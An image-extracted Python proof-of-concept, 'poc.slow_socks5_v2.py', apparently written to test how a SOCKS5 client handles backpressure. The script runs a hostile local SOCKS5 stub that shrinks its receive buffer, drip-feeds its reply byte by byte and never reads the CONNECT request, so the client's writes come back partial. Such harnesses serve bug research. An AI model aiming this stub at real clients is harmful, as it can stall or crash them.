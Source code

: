 

poc.slow_socks5_v2.py
[03:47:54]
#!/usr/bin/env python3
import socket, time, sys, threading, os

HOST = '127.0.0.1'
PORT = 1080

# This SOCKS5 stub: replies to greeting very slowly, then DOES NOT read the CONNECT request,
# so the client's send() of the huge request will hit EWOULDBLOCK/partial writes.
# Also sets a tiny recv buffer to accelerate backpressure.

def send_slow(conn, data: bytes, delay: float):
    for b in data:
        try:
            conn.send(bytes([b]))
        except BrokenPipeError:
            return
        time.sleep(delay)

def handle_client(conn, addr, delay):
    try:
        try:
            conn.setsockopt(socket.SOL_SOCKET, socket.SO_RCVBUF, 4096)
        except OSError:
            pass
        conn.settimeout(10)
        # Read greeting: VER, NMETHODS, METHODS...
        hdr = conn.recv(2)
        if len(hdr) < 2:
            return
        nmethods = hdr[1]
        _ = conn.recv(nmethods)
        # Send method selection slowly: VER=0x05, METHOD=0x00
        send_slow(conn, bytes([0x05, 0x00]), delay)
        # DO NOT read the subsequent CONNECT request at all.
        # Just keep the socket open to exert backpressure and cause partial writes on the client.
        while True:
            time.sleep(1)
    except Exception:
        pass
    finally:
        try:
            conn.close()
        except Exception:
            pass
